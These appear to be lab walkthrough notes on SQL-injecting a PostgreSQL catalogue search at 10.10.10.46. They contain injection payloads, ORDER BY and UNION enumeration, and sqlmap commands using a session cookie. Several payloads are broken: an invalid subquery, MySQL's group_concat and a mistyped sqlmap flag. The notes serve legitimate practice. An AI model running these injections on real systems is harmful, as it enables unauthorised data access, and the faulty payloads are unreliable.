 once we log in we get a catalogue with a search field.

entering a quote mark ' gives us this error:

`ERROR: unterminated quoted string at or near "'" LINE 1: Select \* from cars where name ilike '%a%'--%' ^`

`ERROR: syntax error at or near "bbbb" LINE 1: Select \* from cars where name ilike '%aaaa'bbbb%' ^`


We need to test a couple of things for sqli.
First we need to see what comments the rest of the query out

`/*`  `#` `--` are all ways to comment out the rest of the query

We test this by inputting `a%' <comment>`

We see that `--` comments the rest of the query out

---

Next we need to enumerate the number of columns.
`a%' ORDER BY <#> --`

First we try 10 columns
`a%' ORDER BY 10 --` - we get an error message
Then we try 5
`a%' ORDER BY 5--` - we get a result
If we try anything higher than 5 we get an error.

We now know there are 5 columns.

---

1)  we have injection
2)  we know how many columns there are


```
a%' UNION ALL SELECT NULL,(where table_schema = 'information_schema'),null,null,null--
```

```
a%' UNION ALL SELECT NULL,(select group_concat(table_name) from information_schema.tables),null,null,null--
```


---

We used sqlmap to enumerate the databases

```
qlmap -u http://10.10.10.46/dashboard.php?search=asdf --cookie=PHPSESSID=358c77u1tagqmghqqhbe8v4omd
```


```
[*] information_schema
[*] pg_catalog
[*] public
```

---

We enumerate the tables in `pg_catalog`

`sqlmap -u http://10.10.10.46/dashboard.php?search=asdf --cookie=PHPSESSID=358c77u1tagqmghqqhbe8v4omd -D pg_catalog -tables`




